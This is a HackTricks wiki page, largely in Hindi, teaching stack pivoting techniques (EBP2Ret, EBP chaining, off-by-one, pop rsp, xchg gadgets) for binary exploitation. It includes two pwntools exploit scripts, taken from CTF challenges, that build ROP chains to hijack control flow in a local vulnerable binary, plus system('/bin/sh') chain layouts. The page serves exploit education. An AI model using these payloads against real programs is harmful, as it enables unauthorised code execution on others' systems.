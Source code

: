 # Stack Pivoting - EBP2Ret - EBP chaining

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

यह तकनीक **Base Pointer (EBP)** को हेरफेर करने की क्षमता का लाभ उठाती है ताकि EBP रजिस्टर और `leave; ret` निर्देश अनुक्रम का सावधानीपूर्वक उपयोग करके कई कार्यों के निष्पादन को श्रृंखला में जोड़ा जा सके।

याद दिलाने के लिए, **`leave`** का अर्थ मूल रूप से है:
```
mov               esp, ebp
pop               ebp
ret
```
And as the **EBP is in the stack** before the EIP it's possible to control it controlling the stack.

### EBP2Ret

यह तकनीक विशेष रूप से उपयोगी है जब आप **EBP रजिस्टर को बदल सकते हैं लेकिन EIP रजिस्टर को सीधे बदलने का कोई तरीका नहीं है**। यह कार्यों के निष्पादन के बाद के व्यवहार का लाभ उठाता है।

यदि, `fvuln` के निष्पादन के दौरान, आप स्टैक में एक **नकली EBP** इंजेक्ट करने में सफल होते हैं जो मेमोरी के उस क्षेत्र की ओर इशारा करता है जहां आपका शेलकोड का पता स्थित है (प्लस 4 बाइट्स `pop` ऑपरेशन के लिए), तो आप अप्रत्यक्ष रूप से EIP को नियंत्रित कर सकते हैं। जैसे ही `fvuln` लौटता है, ESP को इस तैयार स्थान पर सेट किया जाता है, और अगला `pop` ऑपरेशन ESP को 4 से घटाता है, **जिससे यह प्रभावी रूप से एक पते की ओर इशारा करता है जिसे हमलावर ने वहां स्टोर किया है।**\
ध्यान दें कि आपको **2 पते जानने की आवश्यकता है**: वह जहां ESP जाने वाला है, जहां आपको उस पते को लिखने की आवश्यकता होगी जिस पर ESP इशारा करता है।

#### Exploit Construction

पहले आपको एक **पता जानने की आवश्यकता है जहां आप मनमाने डेटा / पते लिख सकते हैं**। ESP यहाँ इशारा करेगा और **पहला `ret` चलाएगा**।

फिर, आपको उस पते को जानने की आवश्यकता है जिसका उपयोग `ret` द्वारा **मनमाना कोड निष्पादित करने के लिए किया जाएगा**। आप उपयोग कर सकते हैं:

* एक मान्य [**ONE\_GADGET**](https://github.com/david942j/one\_gadget) पता।
* **`system()`** का पता उसके बाद **4 जंक बाइट्स** और `"/bin/sh"` का पता (x86 बिट्स)।
* एक **`jump esp;`** गैजेट ([**ret2esp**](ret2esp-ret2reg.md)) का पता उसके बाद निष्पादित करने के लिए **शेलकोड**।
* कुछ [**ROP**](rop-return-oriented-programing.md) श्रृंखला

याद रखें कि नियंत्रित मेमोरी के इन पते से पहले, **`4` बाइट्स** होनी चाहिए क्योंकि **`pop`** भाग `leave` निर्देश का है। इन 4B का दुरुपयोग करना संभव होगा एक **दूसरा नकली EBP** सेट करने के लिए और निष्पादन को नियंत्रित करना जारी रखने के लिए।

#### Off-By-One Exploit

इस तकनीक का एक विशिष्ट रूपांतर "Off-By-One Exploit" के रूप में जाना जाता है। इसका उपयोग तब किया जाता है जब आप **केवल EBP के सबसे कम महत्वपूर्ण बाइट को संशोधित कर सकते हैं**। ऐसे मामले में, मेमोरी स्थान जो **`ret`** के साथ कूदने के लिए पता स्टोर करता है, को EBP के साथ पहले तीन बाइट्स साझा करने चाहिए, जिससे अधिक सीमित परिस्थितियों के साथ समान हेरफेर की अनुमति मिलती है।

### **EBP Chaining**

इसलिए, स्टैक के `EBP` प्रविष्टि में एक नियंत्रित पता डालकर और `EIP` में `leave; ret` का पता डालकर, यह संभव है कि **`ESP` को स्टैक से नियंत्रित `EBP` पते पर ले जाया जाए**।

अब, **`ESP`** नियंत्रित है जो एक इच्छित पते की ओर इशारा कर रहा है और निष्पादित करने के लिए अगला निर्देश `RET` है। इसका दुरुपयोग करने के लिए, नियंत्रित ESP स्थान में यह रखा जा सकता है:

* **`&(next fake EBP)`** -> `leave` निर्देश से `pop ebp` के कारण नया EBP लोड करें
* **`system()`** -> `ret` द्वारा कॉल किया गया
* **`&(leave;ret)`** -> सिस्टम समाप्त होने के बाद कॉल किया जाएगा, यह ESP को नकली EBP पर ले जाएगा और फिर से शुरू करेगा
* **`&("/bin/sh")`**-> `system` के लिए पैरामीटर

बुनियादी रूप से इस तरीके से कई नकली EBPs को जोड़ना संभव है ताकि कार्यक्रम के प्रवाह को नियंत्रित किया जा सके।

यह [ret2lib](ret2lib/) की तरह है, लेकिन अधिक जटिल है जिसमें कोई स्पष्ट लाभ नहीं है लेकिन कुछ किनारे के मामलों में दिलचस्प हो सकता है।

इसके अलावा, यहाँ एक [**चुनौती का उदाहरण**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/leave) है जो इस तकनीक का उपयोग करता है एक **स्टैक लीक** के साथ एक विजेता फ़ंक्शन को कॉल करने के लिए। यह पृष्ठ से अंतिम पेलोड है:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16)
log.success(f'Buffer: {hex(buffer)}')

LEAVE_RET = 0x40117c
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229

payload = flat(
0x0,               # rbp (could be the address of anoter fake RBP)
POP_RDI,
0xdeadbeef,
POP_RSI_R15,
0xdeadc0de,
0x0,
elf.sym['winner']
)

payload = payload.ljust(96, b'A')     # pad to 96 (just get to RBP)

payload += flat(
buffer,         # Load leak address in RBP
LEAVE_RET       # Use leave ro move RSP to the user ROP chain and ret to execute it
)

pause()
p.sendline(payload)
print(p.recvline())
```
## EBP बेकार है

जैसा कि [**इस पोस्ट में समझाया गया है**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#off-by-one-1), यदि एक बाइनरी को कुछ ऑप्टिमाइजेशन के साथ संकलित किया गया है, तो **EBP कभी भी ESP को नियंत्रित नहीं करता**, इसलिए, EBP को नियंत्रित करके काम करने वाला कोई भी एक्सप्लॉइट मूल रूप से विफल हो जाएगा क्योंकि इसका कोई वास्तविक प्रभाव नहीं है।\
यह इसलिए है क्योंकि **प्रोलॉग और एपिलॉग बदलते हैं** यदि बाइनरी ऑप्टिमाइज्ड है।

* **ऑप्टिमाइज्ड नहीं:**
```bash
push   %ebp         # save ebp
mov    %esp,%ebp    # set new ebp
sub    $0x100,%esp  # increase stack size
.
.
.
leave               # restore ebp (leave == mov %ebp, %esp; pop %ebp)
ret                 # return
```
* **अनुकूलित:**
```bash
push   %ebx         # save ebx
sub    $0x100,%esp  # increase stack size
.
.
.
add    $0x10c,%esp  # reduce stack size
pop    %ebx         # restore ebx
ret                 # return
```
## अन्य तरीके RSP को नियंत्रित करने के लिए

### **`pop rsp`** गैजेट

[**इस पृष्ठ पर**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp) आप इस तकनीक का एक उदाहरण पा सकते हैं। इस चुनौती के लिए 2 विशिष्ट तर्कों के साथ एक फ़ंक्शन को कॉल करना आवश्यक था, और वहाँ एक **`pop rsp` गैजेट** था और वहाँ **स्टैक से लीक** था:
```python
# Code from https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp
# This version has added comments

from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16) # Leak from the stack indicating where is the input of the user
log.success(f'Buffer: {hex(buffer)}')

POP_CHAIN = 0x401225       # pop all of: RSP, R13, R14, R15, ret
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229     # pop RSI and R15

# The payload starts
payload = flat(
0,                 # r13
0,                 # r14
0,                 # r15
POP_RDI,
0xdeadbeef,
POP_RSI_R15,
0xdeadc0de,
0x0,               # r15
elf.sym['winner']
)

payload = payload.ljust(104, b'A')     # pad to 104

# Start popping RSP, this moves the stack to the leaked address and
# continues the ROP chain in the prepared payload
payload += flat(
POP_CHAIN,
buffer             # rsp
)

pause()
p.sendline(payload)
print(p.recvline())
```
### xchg \<reg>, rsp gadget
```
pop <reg>                <=== return pointer
<reg value>
xchg <reg>, rsp
```
## संदर्भ

* [https://bananamafia.dev/post/binary-rop-stackpivot/](https://bananamafia.dev/post/binary-rop-stackpivot/)
* [https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर **हमें फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
